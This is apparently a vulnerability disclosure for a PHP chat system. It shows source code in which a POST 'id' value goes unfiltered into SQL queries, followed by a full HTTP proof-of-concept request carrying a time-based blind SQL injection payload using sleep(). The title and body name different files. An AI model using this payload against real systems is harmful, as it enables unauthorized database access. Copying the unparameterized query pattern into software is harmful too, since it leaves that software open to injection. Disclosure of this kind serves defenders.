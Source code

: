 # chat system has sql injection in /admin/deleteroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/leaveroom.php



## describe


The id parameter is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if (isset($_POST['leave'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from chat_member where userid='".$_SESSION['id']."' and chatroomid='$id'");
		
		//remove room if no more member
		$r=mysqli_query($conn,"select * from chat_member where chatroomid='$id'");
		if (mysqli_num_rows($r)<1){
			mysqli_query($conn,"delete from chatroom where chatroomid='$id'");
		}
		
	}

?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/leaveroom.php HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 26
Cache-Control: max-age=0
Cookie: PHPSESSID=37s949bl7lo8mj992ts8np9vio
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8081/user/modal.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

leave=1&id=4' or sleep(5)#
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.

